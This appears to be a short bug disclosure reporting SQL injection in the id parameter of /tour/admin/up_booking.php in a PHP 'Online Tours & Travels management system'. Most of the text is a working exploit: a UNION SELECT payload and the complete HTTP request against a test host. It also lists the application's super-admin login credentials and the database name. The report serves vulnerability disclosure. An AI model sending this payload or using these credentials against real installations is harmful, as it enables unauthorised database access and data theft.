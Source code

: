 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Bains

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/up_booking.php

Vulnerability location: /tour/admin/up_booking.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/up_booking.php?id=-1%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /tour/admin/up_booking.php?id=-1%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183011462-e4973b7a-862d-4809-b3d3-e042c320428b.png)
